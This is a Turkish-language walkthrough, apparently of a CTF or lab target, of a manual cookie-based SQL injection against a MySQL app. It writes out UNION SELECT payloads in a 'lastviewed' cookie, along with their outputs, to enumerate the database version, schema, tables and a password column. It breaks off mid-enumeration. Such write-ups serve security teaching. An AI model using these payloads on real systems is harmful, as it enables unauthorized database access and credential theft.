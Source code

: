 ```sh
We couldn't find any information for .

Please try again later.
```
Tek işlem yapabileceğim şey burada cookie gibi duruyor. Bunun üzerinde cookie based sql injection denemeye karar verdim ancak cookie ifadesi bir sql komutuna yada yapısına benzemiyordu. Arka planda bunu parse işlemine soktuğu kesin bu yüzden biraz üzerinde oynadım. Şimdi herhangi bir tool kullanmadan sql injection yapmamız gerekmektedir. Kısaca yapacağımız işlemler şunlar olacaktır:
1. Tablodaki column sayısını belirlemeliyiz.
2. Bu işlemden sonra veritabanı versiyonunu öğrenmek ileride yazacağımız kodları belirleyecektir. MySql veri tabanı yapısında 5'ten önce ve 5'ten sonra olmak üzere 2 farklı yapı bulunmaktadır.
3. Veritabanı adını öğrenmeliyiz.
4. Tablo adını öğrenmeliyiz.
5. Tabloyu dump etmeliyiz.
6. Diğer tablolara bakmalıyız.

Yapacaklarımız aslında yukarıda verilmiştir. Bu listenin hepsini yapmak gibi bir zorunluluğumuz tabikide yoktur.

### Cookie Based Sql Injection:

1. `"{"lastviewed"=="'Spain'"}"` ifadesi ile doğru sonucu elde ettim. Artık burada sql injection yapabilirim.
2. Şimdi işlem yaptığımız tablodaki column sayısını bulmalıyız. Bunu `"{"lastviewed"=="'Spain' order by 1"}"` ifadesini deneyerek buldum. 1 den sonraki ifadelerde bir sonuç dönmediği için tablonun sadece 1 column'dan oluştuğunu anlayabiliriz. Bundan sonraki işlemlerde sonuçlarımızı bu bulduğumuz column'a bastıracağız.
3. Veritabanı versiyonun bulalım: `"{"lastviewed"=="'Spain' UNION SELECT @@version"}"` : Bize geri dönen cevap:
```
We couldn't find any information for 5.7.27-0ubuntu0.16.04.1.
```
Güzel kodlarımızın çalıtığı anlamına geliyor. Şimdi veritabanı ismini tablo adını ve içini okumaya çalışacağız.
4. `"{"lastviewed"=="'Spain' UNION SELECT database()"}"`
```
We couldn't find any information for library.
```
Veritabanı ismimiz `library`.
5. Şimdi tablololara ulaşalım. `"{"lastviewed"=="'Spain' UNION SELECT table_name FROM information_schema.tables WHERE table_schema = 'library'"}"`
```
We couldn't find any information for countries.
```
Çok güzel countries tablosunu bulduk.
5. Zaten tabloda neler olacağını az çok tahmin edebiliyorum, şuanda benim ilgimi çeken daha çok diğer tablolar oldu. Çünkü bir ftp server var ve bilgilerinin buradan çıkacağını düşünüyorum... `"{"lastviewed"=="'Spain' UNION SELECT table_name FROM information_schema.tables WHERE table_schema = 'library' and table_name not in('countries')"}"`
```
We couldn't find any information for access.
```
access isminde bir tablomuz daha var tam da düşündüğümüz gibi.
6. Şimdi columnlar hakkında bilgi edinelim. Bunun için kullnacağımız tablo information_schema veritabananı altındaki columns tablosudur. `"{"lastviewed"=="'Spain' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'access'"}"`
```
We couldn't find any information for password.
```
password column'unun olduğunu öğrenmiş olduk. Şimdi diğer columnları bulalım.